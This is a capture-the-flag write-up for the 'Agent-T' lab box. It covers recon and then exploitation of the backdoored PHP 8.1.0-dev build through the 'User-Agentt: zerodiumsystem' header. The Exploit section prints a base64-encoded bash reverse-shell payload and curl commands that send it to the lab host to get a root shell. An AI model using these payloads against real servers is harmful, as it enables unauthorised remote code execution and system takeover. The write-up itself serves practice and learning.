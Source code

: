 # Agent-T Writeup

Name: Agent-T
Date:  09/01/2023
Description: Something seems a little off with the server.
Better Description: Backdoor o'clock
Difficulty:  Easy
Goals:  
- Quick B2R as I going loads of everything else today.
Learnt:
Beyond Root:
- Patch it

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

![](nmapscan.png)

## Exploit

Nmap discovery script found 8.1.0-dev in the header information. 
![](php8-1-0dev.png)
8.1.0-dev was victim to a supply-chain attack and a backdoor was place when using the header to run arbituary PHP code:
```php
// everything after the system will be executed as a php system command 
"User-Agentt": "zerodiumsystem('" + cmd + "');"
```

For a good 16 minute video by [John Hammond](https://www.youtube.com/watch?v=j-wmhJ8u5Ws) and the [Github](https://github.com/flast101/php-8.1.0-dev-backdoor-rce)

For some reason this should work, but I thought I forgot escape quotations and I am leaving this here as a reminder and testiment to handling quotes workflow. Although actually it is `('"<cmd>"')` reading issue I had.
```bash
# create the variable to be copy and paste lazy 
base64encodedpayload=$(echo "/bin/bash -c 'exec bash -i &>/dev/tcp/$ip/1337 <&1'" | base64 -w0)
curl http://10.10.129.151  -H 'User-Agentt: zerodiumsystem("echo $base64encodedpayload | base64 -d | bash");' -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
```

Regardless

```bash
curl http://10.10.129.151  -H 'User-Agentt: zerodiumsystem('"echo $base64encodedpayload | base64 -d | bash"');' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0'
```

## Foothold && PrivEsc

And we are Root
![](root.png)

## Beyond Root

This box was very easy, but I want to practice and showcase patching this. Also I want to try manual without lookup finding the code and patching it. We are also ina docker container so I could try a container escape.
![](weareinadockercontainer.png)



